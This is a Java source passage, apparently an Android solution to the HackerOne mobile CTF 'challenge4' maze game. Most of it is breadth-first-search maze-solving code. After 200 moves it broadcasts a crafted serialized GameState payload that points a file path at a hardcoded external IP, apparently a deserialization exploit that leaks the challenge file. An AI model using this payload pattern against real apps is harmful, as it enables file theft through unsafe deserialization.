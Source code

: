 ```java
                    boolean[][] walldic = (boolean[][]) value;
                    MainActivity.walls = walldic;
                }
            }
        }
        if (position != null && !waitforresult) {
            bfs();
            Intent start = new Intent();
            start.setAction("com.hackerone.mobile.challenge4.broadcast.MAZE_MOVER");
            start.putExtra("get_maze", "");
            sendBroadcast(start);
        }
        if (moveCount > 200) {
            Serializable bigDicc = new GameState("bigdicc", new BroadcastAnnouncer("/data/local/tmp/challenge4", "/data/local/tmp/challenge4", "http://167.99.163.197"));
            intent=new Intent();
            intent.putExtra("cereal", bigDicc);

            intent.setAction("com.hackerone.mobile.challenge4.broadcast.MAZE_MOVER");
            for (int i = 0; i < 100; i++) {
                System.out.println(i);
                sendBroadcast(intent);

            }
            //System.out.println("WIN");
            System.exit(0);
        }
    }

    static int lastMap = -1;
    static HashMap<Integer, Integer> savedDic = null;

    public int hashMaze() {
        int res = 0;
        for (int i = 0; i < walls.length; i++) {
            for (int a = 0; a < walls[i].length; a++) {
                if (walls[i][a]) {
                    res += (i+1) * (a+1);
                }
            }
        }
        return res;
    }

    public void bfs() {
        waitforresult = true;
        moveCount++;
        int curX = (int)position.get(1);
        int curY = (int)position.get(0);
        int endX = (int)position.get(3);
        int endY = (int)position.get(2);
        if (lastMap == hashMaze()) {
            Integer cur = hash(endX, endY);
            while (savedDic.get(cur) != hash(curX, curY)) {
                cur = savedDic.get(cur);
            }
            int toMoveX = cur / 6969, toMoveY = cur % 6969;
            if (toMoveX == curX) {
                if (toMoveY > curY) {
                    move('l');
                } else {
                    move('h');
                }
```